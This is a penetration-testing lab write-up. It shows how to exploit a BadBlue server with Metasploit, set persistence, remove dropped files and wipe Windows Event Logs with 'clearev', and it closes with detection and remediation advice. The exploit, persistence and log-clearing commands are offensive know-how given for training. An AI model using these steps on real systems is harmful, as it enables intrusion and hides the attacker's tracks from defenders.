# Clearing Your Tracks on Windows

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host (Meterpreter via BadBlue)

## 1. Executive Summary

After exploiting **BadBlue**, we look at the artifacts an engagement leaves on Windows and how
to clean them up: removing dropped files, undoing persistence with the **cleanup resource
script** that Metasploit modules generate, and wiping the Event Logs with `clearev`.

## 2. Foothold

```bash
nmap -sV <target>
use exploit/windows/http/badblue_passthru
exploit
```







## 3. Removing Dropped Files

```cmd
cd C:\
mkdir Temp
```





```cmd
del C:\Temp\example.exe
```



## 4. Persistence Artifacts & Cleanup Resource

```bash
use exploit/windows/local/persistence_service
set SESSION 1
run
```

The module drops artifacts for persistence **and** generates a cleanup resource file.








Running the cleanup resource undoes the persistence changes.

```bash
resource /root/.msf4/logs/persistence/<...>.rc
```



## 5. Clearing Event Logs

```bash
clearev
```



## 6. Detection & Remediation Recommendations

1. **Forward Event Logs off-host in real time** (WEF/SIEM) — `clearev` can't erase forwarded
   records; alert on Event ID 1102 (log cleared).
2. **EDR + application allow-listing** to detect dropped artifacts and persistence services.
3. **Restrict admin/SYSTEM access** so the attacker can't reach these cleanup capabilities.
